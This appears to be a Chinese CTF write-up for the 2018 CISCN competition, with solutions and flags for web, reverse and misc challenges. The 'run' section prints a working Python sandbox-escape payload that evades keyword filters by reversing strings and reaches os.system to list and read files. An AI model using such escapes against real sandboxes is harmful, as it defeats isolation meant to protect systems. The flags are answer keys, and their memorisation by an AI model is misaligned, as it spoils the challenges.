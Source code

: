 ```yaml
---
title: 2018全国大学生信息安全竞赛
date: 2018-05-05 00:00:00
categories:
- CTF/Web
tags: python沙箱逃逸 uuencode
---
```


## EasyWeb

- post给login.php admin:admin 直接看到flag

```
ciscn{2a36b5f78a1d6a107212d82ee133c421}
```

## 验证码

- 随便点几个就出来flag了
- 复现的时候彻底改成了签到题目，输入一个验证码即可

```
ciscn{qqmxxxb1sxdbsm1qdedszfh7ih2h7zxj}
```

## run

直接明了的python沙箱逃逸

```python
>>>dir(__builtins__)
{'SyntaxError': <type 'exceptions.SyntaxError'>, 'NameError': <type 'exceptions.NameError'>, 'Exception': <type 'exceptions.Exception'>, 'raw_input': <built-in function raw_input>, '__import__': <function importer at 0x7f4d1f0b1a28>, 'ValueError': <type 'exceptions.ValueError'>}

```

- 尝试了一堆import，全被ban掉了
- 发现`__import__`可用，但是拼上的字符串还是会被ban掉
- `exec，execute`被ban掉
- `func_globals`因为ls被禁止掉
- `__builtins__`中getattr也被删掉了
— 尝试用类中的`__getattribute__`方法替代`getattr`
- 然后拼接字符串或者反转拼出func_globals，绕过ls，即可getshell

```python
>>>().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("slabolg_cnuf"[::-1])['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('cd /home/ctf;'+'sl'[::-1])

5c72a1d444cf3121a5d25f2db4147ebb
bin
cpython.py
cpython.pyc
sandbox.p

>>>print ().__class__.__bases__[0].__subclasses__()[40]('/home/ctf/5c72a1d444cf3121a5d25f2db4147ebb').read()

ciscn{df3ad5676c26b5f86278ea0634847e0f}

```

## flag in your hand

发现会断到ck()函数下：

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [100, 101, 102, 48, 118, 104, 102, 120, 117, 108, 119, 124];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
}
```

```python
a=[100, 101, 102, 48, 118, 104, 102, 120, 117, 108, 119, 124]
b=""
for i in a:
	b+=chr(i-3)
print b
```

输入token: abc-securit

得到flag：IBIRKdUmzyBfidDyMZrWlQ

## picture

题目给的是个png，010editor打开发现应该是一个jpg，binwalk发现一个zlib

```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
38884         0x97E4          Zlib compressed data, default compression
```

```python
from zlib import *
from base64 import *
import binascii

data = open('1.zlib','rb').read()
data = decompress(data)
data = b64decode(data)
open('1.zip','wb').write(data)
```

- 解码完发现是个base64继续解码，发现大概是个zip，开头个PK被改为了KP，改回来就行了
- 文件存在密码，里面有一个code文件
- 二进制编辑器看到的效果前面是一个压缩包后面有个pyton什么的，如下：

```python
>>> ¨}¨}¨}

Traceback (most recent call last):
  File "<pyshell#0>", line 1, in <module>
    ¨}¨}¨}
ZeroDivisionError: ¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨} <- password ;)
>>> 

```

研究了半天没弄懂，后来用windows下好压打开才知道后面那一堆是备注，并且¨}被展示为一个黑块

```python
>>> ▉▉▉

Traceback (most recent call last):
  File "<pyshell#0>", line 1, in <module>
    ▉▉▉
ZeroDivisionError: ▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉ <- password ;)
>>> 

```

这才看懂，除数为零，自己跑一下

```python
>>> 1/0
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ZeroDivisionError: integer division or modulo by zero
```


```
integer division or modulo by zero
```

这个就是密码，黑块给了30个，好像个数有点不对...解开压缩包是如下密文

```
begin 644 key.txt
G0TE30TY[-T$X0T5$1D$V-#1".#<T,D8Y,3)!0CDQ-T4T-4%#,#9]

end
```

网上查到：

```
uuencode的开头是:
begin <模式> <文件名>
<数据>
end
```

解码网站：[http://www.qqxiuzi.cn/bianma/uuencode.php](http://www.qqxiuzi.cn/bianma/uuencode.php)

```
CISCN{7A8CEDFA644B8742F912AB917E45AC06}
```
